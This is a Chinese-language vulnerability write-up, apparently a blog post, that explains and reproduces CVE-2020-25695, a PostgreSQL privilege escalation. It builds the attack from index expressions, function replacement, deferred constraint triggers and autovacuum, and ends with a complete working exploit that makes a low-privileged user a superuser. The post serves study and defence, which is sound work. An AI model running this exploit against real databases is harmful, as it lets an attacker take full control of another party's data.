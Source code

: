 #  PostgreSQL-CVE-2020-25695 提权漏洞分析   
 珠天PearlSky   2024-12-29 16:04  
  
## 适用版本  
- 13.0 – PostgreSQL 13.0 (Debian 13.0-1.pgdg100+1)  
  
- 12.4 – PostgreSQL 12.4 (Debian 12.4-1.pgdg100+1)  
  
- 12.3 – PostgreSQL 12.3 (Debian 12.3-1.pgdg100+1)  
  
- 11.9 – PostgreSQL 11.9 (Debian 11.9-1.pgdg90+1)  
  
## 漏洞简介  
  
这个安全漏洞主要利用了 PostgreSQL 中的两个特定函数特性：  
  
1. SECURITY DEFINER：带有此属性的函数将以函数创建者的权限来执行，忽略调用者的实际权限。  
  
1. SECURITY INVOKER：与 SECURITY DEFINER 相反，带有此属性的函数将以调用它的用户的权限执行。  
  
在本例中，攻击者利用的是 SECURITY INVOKER 特性。他们发现函数可以通过索引触发执行。因此，攻击者创建了一个带有 SECURITY INVOKER 属性的函数，并将其设置为一个索引表达式。当具有系统权限的用户执行   ANALYZE   命令时，该函数会自动以创建者的高权限运行。攻击者进一步通过精心构造特定的表结构，使得在普通用户权限下，能够触发自动的   ANALYZE，从而实现权限提升，获取更高级别的数据库访问权限。  
## 分析  
### 索引  
  
postgresql可以以如下的方式将函数设置为索引：  
```
CREATE INDEX index ON table (function(a));
```  
  
其中index为索引名，这里的function可以替换为我们自己定义的函数。  
  
我们定义的函数如下  
```
-- create the table to insert the user intoCREATE TABLE t0 (s varchar);-- create the security invoker functionCREATE FUNCTION sfunc2(integer) RETURNS integer   LANGUAGE sql    SECURITY INVOKER AS   'INSERT INTO t0 VALUES (current_user); SELECT $1';
```  
  
然后在我们定义索引的时候发现报错。  
```
CREATE INDEX indy ON blah (sfunc2(a));#报错:SQL 错误 [42P17]: ERROR: functions in index expression must be marked IMMUTABLE
```  
  
这个意思是我们的函数必须是被标记为IMMUTABLE 的。如下:  
```
CREATE FUNCTION sfunc(integer)   RETURNS integer  LANGUAGE sql IMMUTABLE AS  'SELECT $1';
```  
  
但是如果这样声明函数，明显没有任何意义，因为我们是想要通过一些特殊的操作，让这些函数以高权限运行，所以我们进行如下的修改:  
```
CREATE FUNCTION sfunc(integer)   RETURNS integer  LANGUAGE sql IMMUTABLE AS  'SELECT $1';CREATE INDEX indy ON blah (sfunc(a));CREATE OR REPLACE FUNCTION sfunc(integer) RETURNS integer   LANGUAGE sql    SECURITY INVOKER AS'INSERT INTO t0 VALUES (current_user); SELECT $1';
```  
  
首先，我们创建了一个被标记为   IMMUTABLE   的函数，并将其用于索引表达式。接着，我们利用   CREATE OR REPLACE   语句对函数进行了修改和覆盖。关键在于，索引不会检查被覆盖后的函数是否仍然满足其索引所需的标准，这给了我们操作的空间。我们重新标记函数为   SECURITY INVOKER  ，使得函数将以调用者的权限执行。然而，在执行过程中，当我们切换到   postgres   用户并执行相关语句时，我们发现写入的用户名并不是   postgres  ，而是创建函数的用户的用户名。这与我们的预期不符，因为我们希望函数能够写入执行用户的用户名。为了解决这个疑惑，作者深入研究了 PostgreSQL 的实现源码。  
```
/*  * Switch to the table owner's userid, so that any index functions are run  * as that user.  Also lock down security-restricted operations and  * arrange to make GUC variable changes local to this command. (This is  * unnecessary, but harmless, for lazy VACUUM.)  */GetUserIdAndSecContext(&save_userid, &save_sec_context);SetUserIdAndSecContext(onerel->rd_rel->relowner,                                            save_sec_context | SECURITY_RESTRICTED_OPERATION);save_nestlevel = NewGUCNestLevel();// DO LOTS OF WORK// <--- SNIP --->/* Restore userid and security context */SetUserIdAndSecContext(save_userid, save_sec_context);/* all done with this class, but hold lock until commit */if (onerel)        relation_close(onerel, NoLock);/*  * Complete the transaction and free all temporary memory used.  */PopActiveSnapshot();CommitTransactionCommand();
```  
  
通过深入研究源码，我们不难发现，在执行   CommitTransactionCommand   之前，系统已经通过   SetUserIdAndSecContext   将执行用户的权限还原。这就是为什么最终写入的用户名是   foo   而不是   postgres  ，因为我们期望的是写入执行命令的用户（  postgres  ）的用户名，但实际上写入的是创建函数的用户的用户名。为了解决这个问题，作者采用了约束触发器的策略。那么，什么是约束触发器呢？  
### 触发器  
  
下面是菜鸟教程的一个定义:  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wLHD3wfVLsG3aHatbkPjk8uCQb7moYBicyEIibf8hOQ94iaqHY77xNdHwkCeub97qoticSic0Ycictp5dkC4ksU22iavA/640?wx_fmt=png&from=appmsg "")  
简单来说，触发器会在某些操作(增删改查)被执行的时候，去进行一些操作。 作者就是通过触发器，在还原用户权限之前去执行一些其他的操作，我们来看作者给的代码。  
```
CREATE TABLE t1 (s varchar);-- create a functionfor inserting current user into another tableCREATE OR REPLACE FUNCTION snfunc(integer) RETURNS integer   LANGUAGE sql    SECURITY INVOKER AS'INSERT INTO t1 VALUES (current_user); SELECT $1';-- create a trigger functionwhich will call the second functionfor inserting current user into table t1CREATE OR REPLACE FUNCTION strig() RETURNS trigger   AS $e$ BEGIN     PERFORM snfunc(1000); RETURN NEW;   END $e$ LANGUAGE plpgsql;/* create a CONSTRAINT TRIGGER, which is deferred deferred causes it to trigger on commit, by which time the user has been switched back to the invoking user, rather than the owner*/CREATE CONSTRAINT TRIGGER def    AFTER INSERT ON t0    INITIALLY DEFERRED     FOR EACH ROW  EXECUTE PROCEDURE strig();
```  
  
我们先来看下面这段代码  
```
CREATE OR REPLACE FUNCTION strig() RETURNS trigger   AS $e$ BEGIN     PERFORM snfunc(1000); RETURN NEW;   END $e$ LANGUAGE plpgsql;
```  
  
这个函数   strig   是一个触发器函数，它没有参数，返回类型是   trigger  。它执行以下操作：  
1. 调用   snfunc   函数，传入固定值   1000  。  
  
1. 返回   NEW  ，这在插入触发器中通常用于返回新插入的行。  
  
然后是创建了一个触发器:  
```
CREATE CONSTRAINT TRIGGER def    AFTER INSERT ON t0    INITIALLY DEFERRED     FOR EACH ROW  EXECUTE PROCEDURE strig();
```  
  
这个触发器的意思当t0有insert的操作的时候就会进行执行，string()函数而string()函数又是立即执行snfunc函数，其主要执行过程如下图  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wLHD3wfVLsG3aHatbkPjk8uCQb7moYBicRdzfMVUWv66PsM6sTMjQ9icnVBX1goqNFRTUXKFvejTrQNO4Naa7ibKg/640?wx_fmt=png&from=appmsg "")  
所以这时候触发器执行的时候是以执行用户的权限。  
## 自动化  
  
在我们解决了大部分问题之后，最后是如何让数据库自动执行   ANALYZE  ，因为只有   postgres   用户才有权限执行此操作。这时，我们引入了   autovacuum  ，它能够自动执行   ANALYZE   以及   VACUUM   操作。关于   autovacuum   的具体细节，可以通过百度获取更多信息。  
## exp  
  
这里用到了一个网友的exp:  
```
CREATE TABLE t0 (s varchar); CREATE TABLE t1 (s varchar);CREATE TABLE exp (a int, b int);CREATE OR REPLACE FUNCTION sfunc(integer) RETURNS integerLANGUAGE sql IMMUTABLE AS'SELECT $1';CREATE INDEX indy ON exp (sfunc(a));CREATE OR REPLACE FUNCTION sfunc(integer) RETURNS integerLANGUAGE sql SECURITY INVOKER AS'INSERT INTO test.public.t0 VALUES (current_user); SELECT $1';CREATE OR REPLACE FUNCTION snfunc(integer) RETURNS integer   LANGUAGE sql    SECURITY INVOKER AS'INSERT INTO test.public.t1 VALUES (current_user);SELECT $1';CREATE OR REPLACE FUNCTION snfunc2(integer) RETURNS integer   LANGUAGE sql    SECURITY INVOKER AS'INSERT INTO test.public.t1 VALUES (current_user); ALTER USER test SUPERUSER; SELECT $1';CREATE OR REPLACE FUNCTION strig() RETURNS trigger AS $e$ BEGIN IF current_user = 'postgres' THEN    PERFORM test.public.snfunc2(1000); RETURN NEW; ELSE    PERFORM test.public.snfunc(1000); RETURN NEW; END IF;END $e$ LANGUAGE plpgsql;CREATE CONSTRAINT TRIGGER defAFTER INSERT ON t0INITIALLY DEFERRED FOR EACH ROWEXECUTE PROCEDURE strig();ALTER TABLE exp SET (autovacuum_vacuum_threshold= 1);ALTER TABLE exp SET (autovacuum_analyze_threshold= 1);ANALYZE exp;
```  
  
触发autovacuum  
```
INSERT INTO exp VALUES (1,1), (2,3),(4,5),(6,7),(8,9); DELETE FROM exp; INSERT INTO exp VALUES (1,1);
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wLHD3wfVLsG3aHatbkPjk8uCQb7moYBiclpYxQyvvVf0gDLWxNcBzHdDdKreEl2p2IeZZVibDICQbMnkazYstnFw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wLHD3wfVLsG3aHatbkPjk8uCQb7moYBicPqWn8kdDGcNB7AvG02PpgNUAO7WRTwuB2GeCkektp3I4F4dPfWXSCA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wLHD3wfVLsG3aHatbkPjk8uCQb7moYBict770ufQLibKjWPp4MRbebia2Kibwk8oaibIyXVib27R4jj83v7tibeZNG0LA/640?wx_fmt=png&from=appmsg "")  
## 最后  
  
因为我看网上没有什么对这个漏洞的详细复现文章，只有先知有一篇机翻的，所以我通过阅读原文，跟着一步步复现和学习后，彻底了解漏洞和复现成功后所以写下了这篇，若文章上面有什么错误的地方，希望大佬们进行指正。  
## 参考文献  
- https://xz.aliyun.com/t/8682?time__1311=n4%2BxnD0DcDu7G%3DGC%2BGkDlhje3TOArDB0e4OAoD#toc-7  
  
- https://staaldraad.github.io/post/2020-12-15-cve-2020-25695-postgresql-privesc/  
  
- https://blog.ch30gsec.top/archives/cve-2020-25695postgresql%E4%B8%AD%E7%9A%84%E6%9D%83%E9%99%90%E6%8F%90%E5%8D%87  
  
  
  
  
